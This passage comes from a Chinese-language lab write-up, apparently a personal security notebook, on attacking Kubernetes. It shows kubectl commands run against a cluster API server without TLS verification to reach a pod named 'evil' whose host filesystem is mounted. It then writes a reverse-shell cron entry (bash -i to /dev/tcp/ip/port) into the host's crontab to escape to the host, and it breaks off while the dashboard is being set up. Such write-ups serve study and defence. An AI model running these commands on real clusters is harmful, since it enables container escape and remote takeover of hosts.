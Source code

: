 然后查看是否创建evil的pods成功<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647847790211-86f215c1-814d-4f5c-bacc-401af65ff60f.png#averageHue=%23022658&clientId=u506b0e66-8291-4&from=paste&height=232&id=ubccc0c6a&originHeight=309&originWidth=1181&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43460&status=done&style=none&taskId=u2ffdca98-9e56-45b4-a722-8bd29a8ede7&title=&width=886)

查看创建容器的所属容器ip
```java
.\kubectl.exe -s https://192.168.5.174:6443/ describe pod evil --insecure-skip-tls-verify=true
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647850157273-809016f0-db48-4e54-9b52-cba7f3c09d74.png#averageHue=%23022659&clientId=u506b0e66-8291-4&from=paste&height=385&id=uadfbb42b&originHeight=513&originWidth=1200&originalType=binary&ratio=1&rotation=0&showTitle=false&size=72026&status=done&style=none&taskId=u784dae16-d3dd-4cc0-8dd2-015d0bc2787&title=&width=900)

网络波动会影响整个pods是否启动成功，启动成功之后，可以直接弹shell<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647848896569-1ddc874d-6a77-4694-8d68-23edca3e0df2.png#averageHue=%2304295c&clientId=u506b0e66-8291-4&from=paste&id=u2a64f70f&originHeight=56&originWidth=509&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6773&status=done&style=none&taskId=uf00e5ab4-f092-41f7-9274-cb5635a2e0d&title=)

.\kubectl.exe -s [https://192.168.5.174:6443/](https://192.168.5.174:6443/) exec -it evil bash --insecure-skip-tls-verify=true<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647848975128-52f0ecfd-71e0-4e93-acab-28f951b45a38.png#averageHue=%23042759&clientId=u506b0e66-8291-4&from=paste&height=571&id=u88ed0ef7&originHeight=761&originWidth=1503&originalType=binary&ratio=1&rotation=0&showTitle=false&size=444884&status=done&style=none&taskId=uc60fd5c4-72fb-4597-b7e0-2a0576535be&title=&width=1127)

**因为创建的时候，是挂载到test文件下，我们用之前命令获取容器的 bash，然后向容器的 /test/etc/crontab 写入反弹 shell ，就可以获取宿主机权限了**

evil的/test/root目录和宿主机root目录<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647849296290-b92f0044-fef9-471d-b240-82cba38a79a6.png#averageHue=%2387dc82&clientId=u506b0e66-8291-4&from=paste&id=u43a28084&originHeight=193&originWidth=1362&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37703&status=done&style=none&taskId=ub6079920-bc62-4cb2-b07c-83a9eaa8d60&title=)
```java
echo -e "* * * * * root bash -i >& /dev/tcp/ip/port 0>&1\n" >> /test/etc/crontab
```
<a name="m5rKw"></a>
## k8s的控制面板(端口随机

<a name="gPDtJ"></a>
### 控制面板的配置过程以及利用方法
下载 yaml，然后传到服务器上(服务器没配置翻墙)<br />[https://raw.githubusercontent.com/kubernetes/dashboard/v2.4.0/aio/deploy/recommended.yaml](https://raw.githubusercontent.com/kubernetes/dashboard/v2.4.0/aio/deploy/recommended.yaml)<br />kubectl apply -f dab.yaml 安装yaml![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647853243683-aae6c6a6-1134-4196-a953-fd2c1323999d.png#averageHue=%23130d09&clientId=u506b0e66-8291-4&from=paste&height=264&id=u451cf9ee&originHeight=352&originWidth=731&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48602&status=done&style=none&taskId=u33f74a31-460f-4b63-b84f-1a93e2a4ea1&title=&width=548)

kubectl get namespace 查看安装的空间命名，检查安装了没有<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647853207367-5eec394a-c107-4b61-acca-113efd03190d.png#averageHue=%230f0b08&clientId=u506b0e66-8291-4&from=paste&id=u7a3f3715&originHeight=161&originWidth=336&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10410&status=done&style=none&taskId=u7cd2ed3e-7142-4ba7-8af4-044c84fb56f&title=)
